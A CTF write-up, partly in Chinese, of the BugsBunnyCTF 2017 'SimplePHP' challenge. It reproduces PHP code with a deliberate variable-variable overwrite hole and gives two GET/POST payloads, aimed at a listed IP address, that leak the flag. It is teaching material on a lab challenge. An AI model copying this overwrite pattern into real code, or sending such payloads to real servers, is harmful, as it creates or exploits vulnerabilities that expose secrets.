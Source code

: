 # Challenge
```php 
<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";
if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("BugsBunnyCTF is here :p...");
if ( !isset($_POST["flag"]) )
	die($_403);
foreach ($_GET as $key => $value)
	$$key = $$value;
foreach ($_POST as $key => $value)
	$$key = $value;
if ( $_POST["flag"] !== $flag )
	die($_403);
echo "This is your flag : ". $flag . "\n";
die($_200);
?>
```

# Solution 
有很明显的变量覆盖漏洞。要求我们在post语句中有flag，同时在第二个foreach中有把`$flag`直接覆盖了，所以直接通过echo语句输出的flag是被修改过的。接着看看有什么输出点，比如有个`die($_200)`，结合第一个foreach的功能，我们可以在第二个foreach之前先将`$_200`的值覆盖为原flag的值。

payload:
```
http://34.253.165.46/SimplePhp/index.php?_200=flag
POST:
flag=1
```

利用前面的`die($_403)`也可以实现。我们先把原flag的值覆盖到`$_403`上，然后构造`$_POST["flag"] !== $flag`，从而`die($_403)`输出flag。

payload2:
```
http://34.253.165.46/SimplePhp/index.php?_403=flag&_POST=1
POST:
flag=
```

# Refference
+ BugsBunnyCTF2017 : SimplePHP
+ [chybeta : SimplePHP](https://chybeta.github.io/2017/07/30/BugsBunnyCTF2017-web-writeup/#SimplePHP)